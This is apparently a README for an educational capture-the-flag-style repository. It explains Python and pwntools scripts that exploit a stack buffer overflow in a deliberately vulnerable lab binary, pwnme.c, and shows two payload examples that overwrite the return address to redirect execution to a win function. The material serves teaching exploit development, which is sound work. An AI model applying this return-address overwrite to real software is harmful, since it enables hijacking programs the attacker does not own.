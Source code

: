 # README for Buffer Overflow Exploit Challenges

## Overview

This repository contains several Python scripts to create payloads for exploiting buffer overflow vulnerabilities in a vulnerable binary called `pwnme.c`. The challenges demonstrate the use of both standard Python and the `pwntools` library to craft and send payloads to the vulnerable application. 

The primary goal is to overwrite the return address of the function `vuln` to redirect the execution flow to either `win1` or `win2`, allowing the attacker to gain a shell access or a predefined victory message.

---

## File Structure

- **`pwnme.c`**: The source code of the vulnerable application, which contains a buffer overflow vulnerability in the `vuln` function.
- **Scripts**:
  - `vanilla_boilerplate.py`
  - `vanilla_demo.py`
  - `vanilla_full.py`
  - `pwntools_boilerplate.py`
  - `pwntools_demo.py`
  - `pwntools_full.py`

---

## Challenge Descriptions

### 1. **Vanilla Python Scripts**

These scripts use standard Python capabilities to generate and send payloads directly to the vulnerable application.

- **`vanilla_boilerplate.py`**: Sends a simple payload to the application without exploiting the buffer overflow.
  
- **`vanilla_demo.py`**: Constructs a payload to call the `win1` function by overwriting the return address after filling the buffer.
  
- **`vanilla_full.py`**: Crafts a more complex payload to target the `win2` function, providing the necessary argument to trigger the victory condition.

#### Example of Vanilla Payload Creation

```python
# Usage: python3 vanilla_demo.py | ./pwnme

import sys

# Create your bytes data
payload = b''
payload += b'A' * 16  # fill the buffer
payload += b'B' * 8   # overwrite some other misc data on the stack
payload += b'C' * 4   # padding for ebp
payload += b'\xf3\x91\x04\x08'  # win1 function address
payload += b'\n'  # ending newline to terminate gets() read

sys.stdout.buffer.write(payload)
```

---

### 2. **Pwntools Scripts**

These scripts leverage the pwntools library, which provides useful functions and methods tailored for exploit development and binary manipulation.

- **`pwntools_boilerplate.py`**: Similar to the vanilla boilerplate, it sends a simple payload without exploiting the vulnerability.

- **`pwntools_demo.py`**: Automatically constructs the payload to call `win1`, utilizing the `pwntools` functionalities for ease of use.

- **`pwntools_full.py`**: Generates a detailed payload that overwrites the return address and provides an argument for `win2`, fully utilizing the pwntools library to handle ELF file parsing and function address retrieval.

#### Example of Pwntools Payload Creation

```python
# Usage: python3 pwntools_demo.py

from pwn import *

e = ELF('./pwnme')
p = process('./pwnme')

payload = b''
payload += b'A' * 16  # fill the buffer
payload += b'B' * 8   # overwrite some other misc data on the stack
payload += b'C' * 4   # padding for ebp
payload += p32(e.functions.win1.address)  # win1 function address

p.sendline(payload) # send the payload
p.interactive() # make the process interactive in the terminal
```

---

## Some differences Between Vanilla Python and Pwntools for supervised lab

| Feature                        | Vanilla Python                       | Pwntools                             |
|--------------------------------|--------------------------------------|--------------------------------------|
| Address Retrieval               | Manual, require hardcoding addresses | Automatic via `ELF` class            |
| Sending Payloads                | Uses `sys.stdout.buffer.write()`    | `p.sendline()` or `p.send()`        |
| Process Handling                | Requires manual process management   | Handles process management and GDB debugging seamlessly |

---

## Conclusion

This repository provides an educational foundation for understanding and working with buffer overflow vulnerabilities in C programs. By contrasting the use of vanilla Python with the capabilities of pwntools, users can appreciate the different levels of complexity and efficiency in exploit development. 

## Usage Instructions

To run the challenges, you can execute the corresponding Python script and pipe its output into the vulnerable binary. Ensure that you have the necessary permissions and environment to execute these scripts securely.

```bash
# Example command for executing the vanilla full exploit
python3 vanilla_full.py | ./pwnme
```

Adjust the commands for pwntools scripts similarly:

```bash
# Example for pwntools full exploit
python3 pwntools_full.py
``` 

Make sure to compile `pwnme.c` using the appropriate flags before running the scripts. 

Good luck and happy hacking!
